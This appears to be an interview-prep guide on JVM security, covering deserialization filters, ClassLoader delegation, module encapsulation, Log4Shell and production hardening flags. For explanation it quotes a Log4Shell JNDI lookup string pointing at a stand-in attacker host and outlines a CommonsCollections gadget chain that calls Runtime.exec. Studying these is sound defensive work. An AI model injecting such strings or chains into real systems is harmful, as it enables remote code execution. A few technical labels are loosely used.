

# Java JVM - L4 JVM Security

## JVM Class Verification and Security

### 🎯 Model Answer

**30 seconds:**
> JVM security is a multi-layered defense: bytecode verification (ensures loaded
> classes don't violate type safety), the ClassLoader hierarchy (namespace isolation
> preventing class spoofing), the Java Security Manager (deprecated Java 17+),
> module system strong encapsulation (JDK 9+), and JVM hardening flags. The most
> security-critical JVM concern for modern production: preventing deserialization
> attacks, keeping dependency supply chain clean, and using the module system to
> restrict reflective access.

**3 minutes (Senior):**
> JVM security layers:
>
> 1. **Bytecode verification** (ClassLoader): every loaded class undergoes bytecode
>    verification - type-safety check, stack overflow check, uninitialized variable
>    check. Prevents malicious bytecode from bypassing the type system.
>
> 2. **ClassLoader hierarchy**: bootstrap -> extension/platform -> application.
>    Each ClassLoader: separate namespace. A class loaded by ClassLoader A can't
>    access privileged bootstrap classes by replacing them (delegation model).
>    Class spoofing (replacing `java.lang.String` with a malicious version): prevented
>    by the parent-first delegation model.
>
> 3. **Module system** (JDK 9+): strong encapsulation. Internal JDK APIs (`sun.*`,
>    `jdk.internal.*`) are not accessible by default. Reflection blocked for non-exported
>    packages. `--add-opens` is the "escape hatch" (should be minimized).
>
> 4. **SecurityManager** (deprecated JDK 17, removed JDK 24): was the traditional
>    Java sandbox. Legacy code only. Modern replacement: OS-level sandboxing
>    (container capabilities, seccomp), module system encapsulation.
>
> 5. **Deserialization filters** (JDK 9+): `ObjectInputFilter` allows whitelist/blacklist
>    of classes allowed during Java deserialization. Critical for preventing
>    deserialization gadget chain attacks.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "JVM security: bytecode verification + ClassLoader delegation +
module encapsulation + deserialization filters. Most critical: filter deserialization,
restrict --add-opens, upgrade dependencies with known CVEs."

**(2) First principles:** "The JVM executes untrusted bytecode. Security = prevent
that bytecode from doing things beyond its intended scope. Layers: verify the bytecode
is well-formed, isolate class namespaces, restrict access to internals, filter
dangerous operations."

**(3) Bridge:** "JVM security is like a concert venue security system. Bytecode
verification = entrance bag check. ClassLoader delegation = VIP access control
(can't pretend to be staff). Module system = backstage passes required for restricted
areas. Deserialization filters = checking IDs at the backstage entrance."

---

### 📘 Concept Explanation

**JVM security architecture:**
```
JVM SECURITY LAYERS:

LAYER 1: Bytecode Verification (ClassFileParser + Verifier)
  Triggered: when class is first loaded
  Checks:
    - Method bytecodes don't overflow/underflow the operand stack
    - Local variable accessed after initialization
    - Type compatibility (no storing Object where int expected)
    - No access to private members from outside the class
    - Final classes not subclassed
    - Final methods not overridden
  Override: -Xverify:none (NEVER in production, bypasses all checks)
  Performance: one-time cost per class load (cached after first load)

LAYER 2: ClassLoader Hierarchy (Parent-First Delegation)
  Bootstrap ClassLoader: loads java.*, javax.* from JDK
  Platform ClassLoader: loads JDK modules
  Application ClassLoader: loads application classes
  
  Delegation rule: when loading class X:
    1. Ask parent to load X first
    2. Only if parent fails: load from current classpath
  
  Security benefit: application can't override java.lang.String
    (bootstrap already loaded it; application's request: parent succeeds,
     bootstrap's String is returned, not the malicious one)
  
  Vulnerability: context ClassLoader (Thread.getContextClassLoader())
    bypasses normal hierarchy - JNDI, JAXP, and some frameworks use it

LAYER 3: Module System (JDK 9+)
  Default: JDK internal APIs inaccessible (sun.*, jdk.internal.*)
  Strong encapsulation: non-exported packages: no access even via reflection
  Attack surface reduction:
    Before JPMS: sun.misc.Unsafe accessible via reflection to any class
    After JPMS: restricted unless --add-opens specified
  
  Production stance: audit all --add-opens in JVM args
    Every --add-opens: an explicit hole in encapsulation

LAYER 4: Deserialization Filters (JDK 9+)
  ObjectInputFilter: allow/reject classes during deserialization
  Attack surface: Java serialization executes code during deserialization
    (readObject() methods) -> gadget chain attacks
  JEP 290 (JDK 9): per-stream filter
  JEP 415 (JDK 17): JVM-wide deserialization filter
  
  Configuration (JDK 17+ recommended):
    -Djdk.serialFilter=maxdepth=10;maxarray=1000;maxrefs=1000;\
      com.example.**;!*
    Pattern: whitelist application classes, reject everything else (!)
```

---

### 💻 Code Example

> **Code walkthrough:** Deserialization filtering is the highest-priority JVM security
> hardening for any service that receives serialized data. The BAD pattern accepts
> any class during deserialization. The GOOD pattern implements a whitelist filter
> that allows only known-safe application classes.

```java
// BAD: no deserialization filter - accepts any class
// ObjectInputStream without filter: deserialization gadget attacks possible
// Examples: Log4Shell-related gadgets, CommonsCollections exploits
try (ObjectInputStream ois = new ObjectInputStream(inputStream)) {
    UserData data = (UserData) ois.readObject();  // ANY class can be loaded
    // If attacker controls inputStream: can trigger gadget chains
    // Even if the cast fails: readObject() already executed attacker code
}

// GOOD: whitelist filter for expected classes only
// JDK 9+: ObjectInputFilter
import java.io.ObjectInputFilter;

class SafeDeserializer {
    // Whitelist: only these packages/classes allowed during deserialization
    private static final ObjectInputFilter SAFE_FILTER =
        ObjectInputFilter.Config.createFilter(
            // Allow our application data classes:
            "com.example.model.**;" +
            // Allow standard Java primitives and arrays:
            "java.lang.String;" +
            "java.lang.Number;" +
            "java.util.ArrayList;" +
            "java.util.HashMap;" +
            // Maximum depth and references to prevent DoS:
            "maxdepth=5;" +
            "maxrefs=100;" +
            "maxbytes=65536;" +
            // DENY everything else:
            "!*"
        );

    public <T> T deserialize(InputStream inputStream, Class<T> expectedType)
            throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(inputStream)) {
            ois.setObjectInputFilter(SAFE_FILTER);
            Object obj = ois.readObject();
            return expectedType.cast(obj);
        }
    }
}

// JVM-WIDE filter (JDK 17+, recommended for all services):
// Set in JVM startup:
//   -Djdk.serialFilter=com.example.**;java.lang.*;java.util.*;!*
// Or programmatically at startup:
ObjectInputFilter.Config.setSerialFilter(SAFE_FILTER);
// -> applies to ALL deserialization in the JVM
// -> hard to override per-stream (good for defense-in-depth)

// Auditing --add-opens in production:
// Every --add-opens flag is a security hole. Audit and minimize:
// Print all --add-opens in effect:
ProcessHandle.current().info().commandLine().ifPresent(cmd -> {
    Arrays.stream(cmd.split("\\s+"))
        .filter(arg -> arg.startsWith("--add-opens"))
        .forEach(arg -> System.err.println("SECURITY: " + arg));
});
// Expected (deep reflection frameworks): some are unavoidable
// Unexpected (legacy workarounds): eliminate
// Forbidden in new code: --add-opens java.base/java.lang=ALL-UNNAMED

// Checking class loading security (ClassLoader inspection):
SecurityManager sm = System.getSecurityManager(); // deprecated JDK 17+
ClassLoader appCL = Thread.currentThread().getContextClassLoader();
ClassLoader sysCL = ClassLoader.getSystemClassLoader();
// If appCL != sysCL: non-standard ClassLoader hierarchy (check why)
// Context ClassLoader can be set to application ClassLoader by
// frameworks (Spring, JNDI) - security consideration for multi-tenant apps
```

> **Code walkthrough:** The deserialization filter pattern follows the "deny by default"
> security principle. The `!*` at the end of the filter chain denies all classes not
> explicitly allowed. The `maxdepth=5` and `maxrefs=100` limits prevent ReDoS-style
> attacks that construct deeply nested object graphs to exhaust heap. Setting the
> JVM-wide filter at startup (`Config.setSerialFilter`) protects all deserialization
> operations, including those in third-party libraries that don't set their own filter.

---

### 🎓 Answers by Seniority

**Junior / Mid (0-5 years):**
> JVM security: bytecode verification ensures loaded classes are type-safe.
> ClassLoader hierarchy prevents class spoofing. Module system restricts access to JDK
> internals. Key production concern: deserialization attacks (use ObjectInputFilter to
> whitelist classes). Never use `-Xverify:none` in production.

---

**Senior / Staff (5+ years):**
> The JVM security threat model for production microservices: (1) dependency supply
> chain (a compromised library executes on your JVM), (2) deserialization gadget chains
> (any RPC framework using Java serialization is a target), (3) JNDI injection (Log4Shell
> pattern), (4) reflection access to bypass module encapsulation. Defense: SBOM-based
> dependency scanning (CVE alerts), deserialization whitelist filters, module-restricted
> JVM args (`--illegal-access=deny` default since JDK 17), and logging framework
> hardening (JNDI lookup disabled by default in Log4j 2.17+, JUL, Logback).

---

### ⚠️ Common Misconceptions

**Misconception 1: "The Java Security Manager protects against modern attacks."**
The Java Security Manager (deprecated JDK 17, removed JDK 24) was designed for the
applet-era threat model: untrusted applet code running in a trusted browser JVM.
It cannot protect against: deserialization attacks (code executes during class loading,
before SecurityManager checks), supply chain attacks (trusted code by definition), or
Log4Shell-style JNDI injection (uses ClassLoaders in ways SecurityManager doesn't cover).
Modern Java security relies on: OS containerization, module system encapsulation,
deserialization filters, and dependency management.

**Misconception 2: "Bytecode verification means you can't exploit JVM applications."**
Bytecode verification checks the structural integrity of class files - it prevents
the JVM from executing malformed bytecode that would corrupt its own state. It does NOT
prevent: logic vulnerabilities (SQL injection, SSRF, IDOR), deserialization gadget
attacks (valid bytecode executing malicious behavior through readObject()), or
dependency vulnerabilities (valid bytecode from a compromised library). Bytecode
verification is a JVM integrity mechanism, not an application security mechanism.

---

### 🚨 Failure Modes and Diagnosis

**Failure: Deserialization attack via exposed Java RMI or custom serialization endpoint.**
```
Symptom: Unexpected process execution, outbound network connections from the JVM,
  or data exfiltration. JVM appears compromised.

Attack Pattern (CommonsCollections gadget chain):
  1. Attacker sends serialized payload to any endpoint that uses
     Java ObjectInputStream without a deserialization filter
  2. The payload: a serialized CommonsCollections TransformedMap
     with a transformer chain that executes: Runtime.exec("cmd")
  3. ObjectInputStream.readObject() calls readObject() on each
     deserialized object -> TransformedMap.readObject() -> chain executes
  4. Result: arbitrary OS command execution in the JVM process

Vulnerable endpoints:
  - Java RMI (Remote Method Invocation) - classic target
  - JMX (Java Management Extensions) with remote connection
  - Spring HttpInvoker (deprecated)
  - Any custom protocol using ObjectInputStream
  - Some logging frameworks (before Log4j 2.17 JNDI fix)

Diagnosis:
  1. Check for unexpected child processes:
     ps aux | grep -v grep | grep java  # find JVM PID
     ls -la /proc/<pid>/fd | grep socket  # outbound connections
     netstat -tnp | grep <pid>  # unexpected outbound connections
  
  2. JFR records class loading events:
     If attacker-supplied classes are loaded: JFR ClassLoad events will show them
     jfr print --events ClassLoad recording.jfr | grep -v "java\|com.google\|com.example"
  
  3. java.security log (if enabled):
     -Djava.security.debug=all (verbose, for investigation only)
     Logs: ClassLoader decisions, permission checks

Prevention (MUST DO for any service deserializing Java):
  1. Set JVM-wide deserialization filter:
     -Djdk.serialFilter=com.example.**;java.lang.*;java.util.*;!*
  
  2. Disable Java RMI if not needed:
     -Djava.rmi.server.useCodebaseOnly=true
     -Dcom.sun.jndi.rmi.object.trustURLCodebase=false  (JDK 8 default)
  
  3. Disable JNDI remote codebases:
     -Dcom.sun.jndi.ldap.object.trustURLCodebase=false
     -Dlog4j2.formatMsgNoLookups=true  (Log4j < 2.17)
  
  4. Update dependencies: scan with OWASP Dependency-Check,
     Snyk, or GitHub Dependabot for known CVEs in serialization libraries
```

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Bytecode verification purpose | 2 minutes |
| ClassLoader delegation and security | 2 minutes |
| Module system encapsulation | 2 minutes |
| Deserialization attack vector | 3 minutes |
| ObjectInputFilter implementation | 2 minutes |
| SecurityManager deprecation | 2 minutes |
| --add-opens security implications | 2 minutes |
| Log4Shell and JVM security | 2 minutes |
| Supply chain security | 2 minutes |
| JVM hardening checklist | 2 minutes |
| Reflection security | 2 minutes |
| Secure class loading patterns | 2 minutes |

---

**Q1 (bytecode verification): What does bytecode verification check and can it be bypassed?**

A: Bytecode verification (the "verifier") checks: (1) operand stack type consistency
(never reads a float where an int is expected), (2) local variable initialization
before read, (3) method return type matches declaration, (4) branch targets are valid
bytecode instructions, (5) exception handlers are properly typed, (6) access modifiers
respected (can't call a private method from outside the class). The verifier runs at
class load time and is a one-time cost. Bypass: `-Xverify:none` disables ALL verification
(never in production). `-Xverify:remote` (JDK 8): skips verification for
locally-loaded classes (default in applet era).

*What separates good from great:* Bytecode verification is the foundation of Java's
type safety guarantee. Without it: a malicious class could cast any reference to any
type, access private fields, and corrupt JVM internal state. The JIT compiler relies
on bytecode verification results: if the verifier confirms `a` is always a `String`,
the JIT can optimize `a.length()` without type checks. `-Xverify:none` breaks JIT
assumptions and is a correctness issue, not just a security issue. In production, never
use it. The only legitimate use: development-time startup speed improvement for large
applications (class loading is slower with verification). Even then: use with caution
and NEVER in production.

---

**Q2 (ClassLoader delegation): How does ClassLoader delegation prevent class spoofing?**

A: The parent-first delegation model: when an application ClassLoader is asked to load
`java.lang.String`, it first asks its parent (platform ClassLoader), which asks bootstrap.
Bootstrap ClassLoader: loads `java.lang.String` from the JDK rt.jar (or module path).
The application ClassLoader returns the bootstrap-loaded String. Even if the application
provides a malicious `java.lang.String` class file: the parent loads the real one first,
and the application's version is never loaded. The attacker can't override JDK classes.

*What separates good from great:* The attack model that delegation protects against:
"class name confusion." Without delegation: an application could include a file named
`java/lang/String.class` in its classpath, replacing the JDK String class. With delegation:
impossible (bootstrap always wins). BUT: there's an edge case. Thread context ClassLoader
(TCCL) is set by some frameworks (JNDI, JAXP, ServiceLoader) to the application
ClassLoader, bypassing normal hierarchy for service discovery. The TCCL is a performance
optimization (allows plugins to be found by framework code that runs in the bootstrap
context), but it can be exploited: JNDI lookups use TCCL, allowing application-ClassLoader
classes to be invoked from bootstrap-ClassLoader code. This is part of the Log4Shell
attack surface.

---

**Q3 (module system): How does the JDK module system improve security over the classpath?**

A: Pre-modules: all JDK classes accessible via reflection. `sun.misc.Unsafe`: any
class could call it. `sun.reflect.Reflection`: accessible. This was exploited in
gadget chains and JVM internals hacks. Modules: strong encapsulation by default.
`sun.misc.Unsafe` is in `jdk.unsupported` module, accessible only to explicitly
named modules. `jdk.internal.*`: not exported at all (only accessible via `--add-opens`,
which is logged and auditable). Effect: attack surface reduced. Gadget chains that used
JDK internal APIs: blocked unless `--add-opens` is present.

*What separates good from great:* The module system's security benefit is gradual.
JDK 9-16: `--illegal-access=warn/deny` flags gradually tightened. JDK 17: `--illegal-access`
removed, strong encapsulation default. JDK 21+: many JDK internal APIs only accessible
with explicit `--add-opens`. The security audit: `java --list-modules | grep "jdk"` shows
available modules; `java -jar app.jar --show-module-resolution` shows what `--add-opens`
are in effect. Any `--add-opens java.base/java.lang=ALL-UNNAMED` in production: a
major red flag. Allowed: `--add-opens java.base/java.util=com.fasterxml.jackson.core`
(explicit module-to-module open, more restrictive). Audit: ensure `--add-opens` are
minimized and documented.

---

**Q4 (deserialization): Explain a Java deserialization attack and how to prevent it.**

A: Java serialization: when deserializing an object, `readObject()` is called for each
deserialized class. Gadget chains: construct a serialized object graph where `readObject()`
methods call each other in sequence, eventually executing arbitrary code. Example:
Apache CommonsCollections chain: `InvokerTransformer.readObject()` -> calls
`Runtime.exec()`. The payload is a valid serialized Java object, but its deserialization
triggers OS command execution. Prevention: (1) `ObjectInputFilter` whitelist - reject
classes not in the expected set; (2) don't expose endpoints that accept Java-serialized
data; (3) use alternative serialization formats (JSON, protobuf); (4) update
CommonsCollections and other gadget-providing libraries.

*What separates good from great:* The `ysoserial` tool (open-source, used by security
researchers and attackers) generates deserialization payloads for many gadget chains
(CommonsCollections1-7, Spring1-4, JBossInterceptors, JRMPClient, etc.). Each chain
targets a specific combination of libraries. If an application has CommonsCollections
on the classpath: it may be vulnerable to multiple chains. Mitigation hierarchy:
(1) Remove Java serialization endpoints entirely (best: use REST/gRPC instead of RMI);
(2) Apply deserialization filter (blocks gadget chains by class name filtering);
(3) Remove gadget-providing libraries (CommonsCollections, XStream) if not needed;
(4) Keep libraries updated (newer versions may remove the gadget classes).

---

**Q5 (jndi log4shell): How did the Log4Shell vulnerability exploit JVM security?**

A: Log4Shell (CVE-2021-44228): Log4j 2.x evaluates `${jndi:ldap://attacker/exploit}`
lookup strings in log messages by default. JNDI (Java Naming and Directory Interface)
is a Java API for naming/directory lookups. The LDAP variant: sends an LDAP query to
the attacker's server, which responds with a reference to a malicious Java class at a
URL. JDK <= 8u191: JNDI would load and execute the remote class. Result: arbitrary
code execution. Fix: (1) Log4j 2.17+: JNDI lookups disabled by default; (2) JDK 8u191+:
`com.sun.jndi.ldap.object.trustURLCodebase=false` (remote codebase disabled);
(3) `log4j2.formatMsgNoLookups=true` as a JVM property.

*What separates good from great:* Log4Shell exposed multiple layers of JVM security
gaps. (1) Log4j: should never execute code from user-controlled strings (OWASP A3:
Injection). (2) JNDI: remote codebase loading is dangerous by design (remote code
execution by intent). JDK 8u191 disabled remote codebase loading, but older JDKs and
the LDAP JNDI provider still allowed it. (3) ClassLoader: the loaded class from JNDI
used Thread.currentThread().getContextClassLoader() (TCCL) to inject into the
application's ClassLoader context. Defense in depth: (1) Input validation (don't log
user-controlled strings directly), (2) JNDI remote codebase disabled (JDK 8u191+),
(3) Log4j 2.17+, (4) network egress filtering (JVM can't reach attacker's LDAP server).

---

**Q6 (Xverify): When might -Xverify:none be tempting and why is it dangerous?**

A: Tempting when: large applications with many classes take 20+ seconds to start,
bytecode verification is a measurable contributor to startup time. Dangerous because:
(1) JIT compiler makes type safety assumptions based on verification results; without
verification, JIT may generate incorrect native code; (2) class files from untrusted
sources (dependency supply chain, classpath injection) could contain malicious bytecode
that corrupts the JVM; (3) bugs in generated bytecode (from code generation frameworks)
that happen to pass undetected without the verifier can cause silent data corruption.

*What separates good from great:* Modern startup alternatives to `-Xverify:none`:
(1) AppCDS (Application Class Data Sharing): pre-verifies classes and caches the
results in a shared archive. Classes loaded from the archive: pre-verified, no runtime
verification cost. Startup 2-5x faster without disabling verification. (2) GraalVM
native image: compiles all classes ahead-of-time. Verification done at compile time,
not runtime. Near-instant startup, no runtime verification. (3) JLink: create a
custom JVM image with only the required modules. Fewer classes = faster verification.
These approaches achieve fast startup WITHOUT compromising security, making `-Xverify:none`
completely unnecessary in modern JDK.

---

**Q7 (SecurityManager): Why is SecurityManager being removed and what replaces it?**

A: SecurityManager (circa Java 1.0) designed for applets: untrusted code running
in a trusted JVM. Architecture: a global permission-check hook for I/O, networking,
reflection, threads. Problems: (1) complex and error-prone to configure correctly;
(2) performance overhead on every privileged operation; (3) doesn't protect against
deserialization attacks; (4) modern deployment uses containers/OS-level isolation;
(5) fundamental design doesn't match modern threat model (we don't run untrusted applets).
JDK 17: deprecated. JDK 24: removed. Replacement: OS containers with seccomp/AppArmor
profiles, module system encapsulation, and explicit security APIs.

*What separates good from great:* The SecurityManager removal is controversial because
some enterprise frameworks (Apache Tomcat, JBoss AS) used SecurityManager as a tenant
isolation mechanism for multi-tenancy. A J2EE application server would run multiple
deployed applications (WARs) in one JVM, isolated by SecurityManager policies. With
removal: these servers must migrate to per-JVM per-application deployment (one pod per
WAR). In practice: this migration was already in progress due to Kubernetes/Docker
adoption. The modern multi-tenancy model: separate JVMs per tenant, OS-level isolation.
SecurityManager's multi-tenancy promise was never fully reliable (bypasses were known).
The migration has been forced by JDK 24, accelerating adoption of proper isolation.

---

**Q8 (reflection): How does the module system restrict dangerous reflection?**

A: Pre-modules: `Field.setAccessible(true)` on any field (including private): always
worked. Used in serialization, ORM frameworks, testing frameworks. Modules: strong
encapsulation. `setAccessible(true)` on a private field in an unexported package:
throws `InaccessibleObjectException` unless the module explicitly opens the package.
`--add-opens module/package=requesting.module` opens a package for deep reflection
from a specific module. `--add-opens module/package=ALL-UNNAMED` opens to all unnamed
modules (classpath code) - a broad exception.

*What separates good from great:* The `--add-opens` flag creates an auditable,
explicit record of all reflection-based encapsulation bypass in the system. A production
JVM with 20+ `--add-opens` flags: each one is a potential attack vector if the
reflecting library has a vulnerability. The security stance: minimize `--add-opens`.
Migration path: (1) map each `--add-opens` to the library that requires it, (2) check
if the library has a newer version that uses proper APIs (instead of reflection), (3)
for necessary reflection: prefer `--add-opens module/package=com.example.mymodule`
(restrict to your module) over `=ALL-UNNAMED` (open to all classpath code). Tools:
`jdeprscan` and `jlink --check-modules` identify reflected access patterns.

---

**Q9 (supply chain): How do you manage JVM security in a dependency supply chain?**

A: (1) SBOM (Software Bill of Materials): generate with `mvn dependency:tree -Dverbose`
or `gradle dependencies`. Track all direct and transitive dependencies. (2) CVE scanning:
OWASP Dependency-Check, Snyk, GitHub Dependabot. Alert on any dependency with a CVSS
score > 7.0. (3) Private artifact registry: proxy all dependencies through Nexus/Artifactory
with CVE scanning at push time. (4) Dependency pinning: pin transitive dependency versions
in `dependencyManagement` (Maven) or `constraints` (Gradle) to control versions. (5) Regular
updates: automated PR creation for dependency updates (Renovate, Dependabot).

*What separates good from great:* The "confused deputy" attack in Maven: if an attacker
publishes `com.example:example-lib:1.2.4` to Maven Central, and your application pins
to `1.2.+` (version ranges): you automatically pull the malicious version. Fix: pin
exact versions for all dependencies (`1.2.3` not `1.2.+`). Also: use checksum verification
(`gradle --write-verification-metadata sha256`). The `build.gradle` verification metadata:
records SHA-256 of each dependency; future builds fail if the checksum doesn't match
(detects tampering or supply chain attack). Maven equivalent: `mvn -Dmaven.artifact.checksum.failOnMismatch=true`.

---

**Q10 (jvm hardening): What is your JVM hardening checklist for production deployment?**

A: (1) `-XX:+DisableAttachMechanism`: disables `jcmd`/`jstack` attach (prevents in-process
diagnostic tools from being used offensively). Use only if jcmd access is not needed.
(2) `-Djava.security.egd=file:/dev/urandom`: use `/dev/urandom` for seeding (avoid
blocking on `/dev/random`). (3) Set deserialization filter:
`-Djdk.serialFilter=app.classes.**;java.**;!*`. (4) Disable remote JNDI:
`-Dcom.sun.jndi.ldap.object.trustURLCodebase=false`. (5) Minimize `--add-opens`.
(6) Enable GC pressure limits (prevent DoS). (7) Set `-Xss` (stack size) to limit
stack overflow attacks. (8) `-XX:+HeapDumpOnOutOfMemoryError` with secure path.

*What separates good from great:* `-XX:+DisableAttachMechanism` is the most operationally
impactful security flag. It prevents `jcmd`, `jstack`, `jmap`, and JFR attach from working.
In a high-security environment: this is appropriate (an attacker with shell access
could use jcmd to execute code in the JVM process). In a standard production environment:
this prevents all standard JVM diagnostics tools - a significant operational cost.
The trade-off: security vs observability. Better alternative: OS-level access control
(only authorized users can execute jcmd against the JVM process) without completely
disabling the mechanism. `DISABLE_ATTACH` should only be set after confirming the
operational impact with the SRE team.

---

**Q11 (class hijacking): How does a ClassLoader-based class hijacking attack work?**

A: Class hijacking: an attacker provides a class with the same fully-qualified name
as a legitimate class, in a ClassLoader that loads it before the legitimate one.
Attack scenario: a classpath scan-based framework loads classes from all JARs.
If the attacker can add a JAR to the classpath (dependency confusion attack):
their `com.example.Service` loads before the real one. The framework uses the
attacker's class. Impact: code execution, data exfiltration within the JVM.

*What separates good from great:* Dependency confusion is a supply chain attack: an
attacker publishes a package with the same name as an internal package to a public
registry (Maven Central, npm). When the build system searches for the package: the
public version (with a higher version number crafted by the attacker) is found
instead of the internal one. Fix: (1) use explicit repository ordering in build
tools (internal registry first, Maven Central only as fallback for known-external deps);
(2) reserve internal package names in public registries (squatting prevention);
(3) private registry with artifact verification; (4) module system: modules have a
namespace (reverse-DNS) that can't be trivially confused. Modules owned by the JDK
(java.base, etc.) can't be replaced by application code.

---

**Q12 (jvm isolation): How do you isolate JVM workloads in multi-tenant environments?**

A: Modern JVM multi-tenancy: one JVM per tenant (not shared JVM with SecurityManager).
Container-level isolation: each tenant in a separate pod/container with its own JVM.
OS namespace isolation: separate Linux namespaces (PID, network, filesystem).
Resource limits: Kubernetes ResourceQuota and LimitRange. CPU/memory cgroups.
JVM-level: no shared static state between tenants (separate JVM = separate static fields,
separate ClassLoaders). Network policies: restrict pod-to-pod communication.

*What separates good from great:* The JVM "footprint" vs isolation trade-off: running
one JVM per tenant has higher RAM overhead (JVM baseline: 50-200MB per instance).
For 1000 tenants: 50-200GB baseline RAM just for JVM overhead. Mitigation: JVM CDS
(Class Data Sharing) across instances. Multiple JVM instances on the same host can
share read-only mapped pages for JDK classes (bootstrap ClassLoader classes). Result:
per-instance JDK class overhead reduced from 30-50MB to ~5MB (OS shares the read-only
mapping). For high-density multi-tenancy: enable CDS: `java -Xshare:on -cp app.jar`.
GraalVM native image: even better - compile to native binary, ~5-10MB RSS baseline,
no JVM overhead. For per-tenant microservices: native image reduces the isolation-cost
trade-off significantly.

---

### ⚖️ Comparison Table

| Security Mechanism | Protects Against | JDK Status | Bypass / Limitation |
|---|---|---|---|
| Bytecode Verifier | Malformed bytecode, type confusion | Active (disable = -Xverify:none) | Not a substitute for app security |
| ClassLoader delegation | Class spoofing (replacing JDK classes) | Active | Context ClassLoader bypasses hierarchy |
| Module system | Reflection to internal APIs | Active (JDK 9+) | --add-opens creates gaps |
| ObjectInputFilter | Deserialization gadget chains | Active (JDK 9+) | Must be configured; not default |
| SecurityManager | General sandboxing | Removed (JDK 24) | Was too complex, not effective |
| Container isolation | Cross-tenant attacks | OS-level | Not JVM-specific |

---

### 🏛️ System Design

**Secure JVM deployment for a financial services platform:**

**Context:** Payment processing API handling sensitive card data. Regulatory: PCI-DSS
compliance. Threat model: external attackers via HTTP, internal threat from compromised
developer machines.

```
SECURE JVM DEPLOYMENT ARCHITECTURE:

  JVM Security Flags:
    # Core hardening:
    -XX:+DisableAttachMechanism    # block jcmd/jstack attach (no shell access to prod)
    -Djdk.serialFilter=com.example.payment.**;java.lang.*;java.util.*;!*
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false
    -Dlog4j2.formatMsgNoLookups=true  # log4j hardening

    # Observability (must NOT conflict with security):
    -XX:+FlightRecorder            # JFR for post-mortem
    -XX:StartFlightRecording=settings=default,maxage=1h,filename=/secure/jfr/

    # Memory hardening:
    -Xss512k                       # limit stack depth (prevent SO exploitation)
    -XX:MaxMetaspaceSize=512m      # prevent Metaspace DoS

  Network Security:
    mTLS between services (no plaintext RPC)
    JNDI lookups blocked by network policy (no egress to :389, :1099)
    Container network policy: allow only API gateway -> payment service

  Dependency Management:
    mvn dependency-check:check -DfailBuildOnCVSS=7  # fail build on high CVE
    All deps pinned to exact versions (no version ranges)
    Checksum verification enabled (gradle --write-verification-metadata sha256)
    Internal Nexus registry: all deps proxied + scanned
    Dependabot: weekly PR for security updates (auto-merge if tests pass)

  Runtime Protection:
    seccomp profile: restrict syscalls to known-safe set
      Blocked: execve (prevents command execution from JVM)
      Blocked: ptrace (prevents debugger attach)
    AppArmor/SELinux: restrict file system access to /app and /secure/jfr/
    Read-only container filesystem (write only to /secure/jfr/ mount)
    No privilege escalation (runAsNonRoot: true, allowPrivilegeEscalation: false)

  Incident Response:
    JFR ring buffer: last 1h always available
    OOM heap dump: -XX:+HeapDumpOnOutOfMemoryError -XX:HeapDumpPath=/secure/heap/
    Encrypted PV for heap dumps (PCI data in heap must not be plaintext on disk)
    Automated notification: heap dump created -> alert security team for review

  Compliance Controls:
    CVE scanning: daily scan of running containers
    Patch SLA: CVSS >= 9.0 within 24h, >= 7.0 within 7 days
    JDK version: LTS only (JDK 21 with quarterly security updates)
    Audit log: all --add-opens flags reviewed quarterly
```

---

### 📊 Diagram

**JVM security layer stack and deserialization attack prevention:**

```
JVM SECURITY LAYERS (outermost to innermost):

  OS Container Layer:
    seccomp: block exec*, ptrace
    AppArmor: restrict filesystem access
    Network policy: egress filtering
         |
  JVM Startup Layer:
    -Xverify (bytecode verification)
    -DisableAttachMechanism
    JNDI remote codebase disabled
    Deserialization filter configured
         |
  ClassLoader Layer:
    Parent-first delegation
    Module strong encapsulation
    Minimal --add-opens
         |
  Application Layer:
    ObjectInputFilter on all deserialization
    Input validation
    Dependency CVE scanning

DESERIALIZATION ATTACK FLOW (blocked):

  Attacker payload -> HTTP endpoint
         |
  Reaches ObjectInputStream
         |
  ObjectInputFilter fires:
    class = "org.apache.commons.collections.functors.InvokerTransformer"
    -> NOT in whitelist -> REJECTED -> ClassNotFoundException thrown
         |
  Attack stopped at deserialization layer
  (code in InvokerTransformer.readObject() never executes)
```



> **Diagram walkthrough:** The security layer stack shows defense-in-depth: multiple
> independent layers that each provide a different type of protection. The deserialization
> attack flow shows the critical filter interception: the ObjectInputFilter fires before
> any class code executes, checking the class name against the whitelist. The attacker's
> gadget class is not in the whitelist, so it's rejected with ClassNotFoundException.
> Crucially: the malicious `readObject()` code in the gadget class NEVER executes.
> Without the filter: the class would be loaded, instantiated, and `readObject()` would
> call Runtime.exec() before any other checks could fire.
